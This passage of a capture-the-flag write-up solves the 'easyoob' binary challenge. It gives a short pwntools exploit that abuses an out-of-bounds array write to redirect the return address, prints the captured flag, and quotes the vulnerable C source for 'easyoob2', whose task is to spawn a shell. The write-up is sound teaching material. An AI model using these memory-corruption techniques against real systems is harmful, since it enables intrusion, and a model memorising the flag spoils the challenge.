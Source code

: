 ```py
from pwn import *

# --- setup ---
elf = context.binary = ELF('./easyoob')
rop = ROP(elf)
# p = process()
p = remote('challs.nusgreyhats.org', 10524)

# --- exploit ---

# note: not necessary to change these to bytestrings, it's just the avoid the pwntools warning.
p.sendline(bytes(f'2 22 {elf.sym.ezflag} 0', 'utf-8'))
p.sendline(bytes(f'2 21 {rop.ret.address} 0', 'utf-8'))
p.sendline(b'3')
p.interactive()
# ret goes in `array[21]` (4198426), ezflag goes in `array[22]` (4198838)
```

`grey{g00d_j0b_n0w_g0_7ry_easyoob2}`

---

### easyoob2

> It is nice to have a function that gives you the flag. But it's not so easy in real life.
> Can you find a way to spawn a shell from exploiting the service?
> 
> daniellimws
> 
> nc challs.nusgreyhats.org 10526

[Files](./easyoob2)

```c
typedef struct entry
{
    int score;
    char name[4];
} entry;

void handle_upperify(entry* leaderboard, command cmd)
{
    char* name = leaderboard[cmd.pos].name;
    int len = strlen(name);
    for (size_t i = 0; i < len; ++i) name[i] = toupper(name[i]);
    printf("%d. %-4s  %d\n", cmd.pos, leaderboard[cmd.pos].name, leaderboard[cmd.pos].score);
}

entry leaderboard[20];

int main()
{
    setup_io();
    puts(BANNER);
    usage();

    command cmd;
    do {
        cmd = get_command();
        if (cmd.op == 1) handle_read(leaderboard, cmd);
        else if (cmd.op == 2) handle_write(leaderboard, cmd);
        else if (cmd.op == 3) handle_upperify(leaderboard, cmd);
    } while (cmd.op != 4);

    puts("Thanks for using LeaderboardDB. Your changes are not saved.");
```